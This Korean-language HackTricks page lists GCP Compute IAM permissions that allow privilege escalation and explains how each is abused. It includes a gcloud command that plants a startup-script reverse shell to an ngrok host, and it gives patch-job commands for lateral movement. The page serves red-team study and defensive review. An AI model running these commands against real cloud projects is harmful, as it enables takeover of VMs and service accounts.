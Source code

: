 # GCP - Compute 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## Compute

Compute 및 VPC(GCP의 네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격을 수행하려면 (새 사용자 및 SSH 키 추가와 같은) **인스턴스에 연결된 SA에 대한 `actAs` 권한이 필요**합니다. 심지어 SA가 이미 연결되어 있는 경우에도!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

해당 권한으로 **인스턴스**의 **메타데이터 정보를 수정**하고 **사용자의 인증 키를 변경**하거나 **sudo 권한을 가진 새 사용자를 생성**할 수 있습니다. 따라서 어떤 VM 인스턴스로든 SSH를 통해 실행하여 해당 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* 기본적으로 VM 인스턴스에서 실행되는 GCP 서비스 계정은 **매우 제한된 범위**를 갖습니다.
* **SSH 서버에 연락할 수 있어야**합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

또는 새로운 시작 스크립트를 추가하고 인스턴스를 다시 부팅하여 이 공격을 수행할 수 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 제공하지만 전체 프로젝트가 아닌 특정 인스턴스에 대해 적용됩니다. **이전 섹션과 동일한 취약점 및 제한이 적용**됩니다.

### `compute.instances.setIamPolicy`

이 유형의 권한을 사용하면 **이전 권한을 가진 역할을 부여**하고 그것을 남용하여 권한을 상승시킬 수 있습니다.

### **`compute.instances.osLogin`**

**인스턴스에서 OSLogin이 활성화**된 경우,이 권한을 사용하면 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한을 가지지 않습니다**.

{% hint style="success" %}
이 권한으로 VM 인스턴스 내에서 성공적으로 로그인하려면 VM에 연결된 SA에 대한 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### **`compute.instances.osAdminLogin`**

**인스턴스에서 OSLogin이 활성화**된 경우,이 권한을 사용하면 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한을 가질 수 있습니다**.

{% hint style="success" %}
이 권한으로 VM 인스턴스 내에서 성공적으로 로그인하려면 VM에 연결된 SA에 대한 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

할당된 서비스 계정이 있는 가상 머신을 만들고 서비스 계정의 토큰을 훔쳐 권한을 상승할 수 있습니다.

이 방법의 exploit 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이를 통해 환경에서 측면 이동하고 프로젝트 내의 모든 컴퓨팅 인스턴스에서 코드 실행을 얻을 수 있습니다.

수동으로 이를 악용하려면 [패치 작업](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) 또는 [배포](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)를 만들어야 합니다. 패치 작업 실행:

`gcloud compute os-config patch-jobs execute --file=patch.json`

패치 배포를 배포하려면:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

[patchy](https://github.com/rek7/patchy)와 같은 자동화 도구를 사용하여 권한 부여를 감지하고 자동으로 측면 이동할 수 있습니다.

**이를 영속적으로 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

컴퓨팅 이미지에 **추가 권한을 부여**합니다.

### `compute.snapshots.setIamPolicy`

디스크 스냅샷에 대한 **추가 권한을 부여**합니다.

### `compute.disks.setIamPolicy`

디스크에 대한 **추가 권한을 부여**합니다.

### 액세스 스코프 우회

다음 링크를 따라가면 [**액세스 스코프를 우회하기 위한 아이디어**](../)를 찾을 수 있습니다.

### GCP 컴퓨트 인스턴스에서 로컬 권한 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고 자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

